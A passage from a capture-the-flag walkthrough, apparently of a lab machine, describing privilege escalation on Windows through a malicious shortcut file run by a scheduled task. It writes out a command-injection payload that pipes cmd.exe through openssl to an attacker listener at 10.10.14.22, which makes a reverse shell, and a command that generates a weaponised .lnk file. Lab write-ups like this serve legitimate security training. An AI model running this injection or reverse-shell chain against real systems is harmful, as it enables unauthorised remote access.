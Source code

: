 From there we wait, Not sure exactly how often the Scheduled Task triggers, but it was reasonably fast (1-2 mins)

Repeat the command process and list the files on public users shortcut directory and we can see that there is now a thoseguys.txt file and the original lnk is back:
```
c:\windows\system32\inetsrv>dir "C:\users\public\desktop\shortcuts"
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of C:\users\public\desktop\shortcuts

02/22/2019  11:58 AM    <DIR>          .
02/22/2019  11:58 AM    <DIR>          ..
02/22/2019  11:44 AM               551 thoseguys.lnk
02/22/2019  11:58 AM                32 thoseguys.txt
02/22/2019  11:55 AM               433 thoseguysu.lnk
07/06/2018  02:28 PM             6,125 Visual Studio 2017.lnk
               4 File(s)          7,141 bytes
               2 Dir(s)  15,459,479,552 bytes free
```


Repeat the command again, to get the contents of the user.txt flag:
```
Terminal 1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73
type C:\users\public\desktop\shortcuts\thoseguys.txt

Website: || "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136

Terminal 2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>type C:\users\public\desktop\shortcuts\thoseguys.txt
2b9a4[REDACTED]524dd
```

So now we have a very complicated way to run commands as the jorge user. We start again and enumerate the file system, this takes a very very long time, and we actually received a hint from one of our viewers / community members to look at connected drives. So we set up a new lnk to run as jorge to list out all the drives on the target:
```
root@kali: python generate.py --host localhost --type ntlm --output out.lnk --execute 'fsutil fsinfo drives > C:\users\public\desktop\shortcuts\drives.txt'
```

Then we follow the same methods to get the file on the box, and replace the lnk and wait for it to run, we finally get the result:
```
c:\windows\system32\inetsrv>type C:\users\public\desktop\shortcuts\drives.txt

Drives: C:\ D:\ 
```
